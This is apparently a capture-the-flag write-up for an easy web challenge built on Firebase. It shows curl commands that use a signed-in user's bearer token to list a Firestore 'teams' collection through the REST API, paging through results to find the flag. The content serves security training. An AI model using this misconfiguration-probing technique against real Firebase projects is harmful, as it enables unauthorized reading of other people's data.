





Description
I made a cryptic hunt platform, but seems like I messed up big time.
https://v0-firebase-ctf-challenge.vercel.app/
Category: web
Difficulty: easy
Author: bhavya_32
This is a firebase app, which means we could check for misconfigurations.

Sign in with a google account and get the Bearer Token ID.

Firebase uses firestore REST API. If misconfigured we may be able to read information with no priveleges. To access firestore we use
https://firestore.googleapis.com/v1/projects/{project_id}/databases/(default)/documents/{collection}
project_id is found at GET /__/firebase/init.json endpoint during sign in.

collection is /teams since there we have teams competing in the cryptic challenge.
curl 'https://firestore.googleapis.com/v1/projects/ctf-67ebf/databases/(default)/documents/teams' \n
-H 'Authorization: Bearer <token_id_we_found>' | grep 07CTF{
We won’t find the flag since not all the informations about /teams is shown in this page.

We need to request the next page and the next until we find it.
curl 'https://firestore.googleapis.com/v1/projects/ctf-67ebf/databases/(default)/documents/teams?pageToken=AFTOeJz1QyxZtnd5EdXR_W-GqrTcAd1Jvqvha1yJZsHt3r_vWCVvDwzndkVp-Na0qbJ7qXUtylR5jXjbZZtXe6Mnkerx6NbtlR982aZvjRfcnegQW5zXRC0ZTDLw8tIt' \n
-H 'Authorization: Bearer <token_id_we_found>' | grep 07CTF{
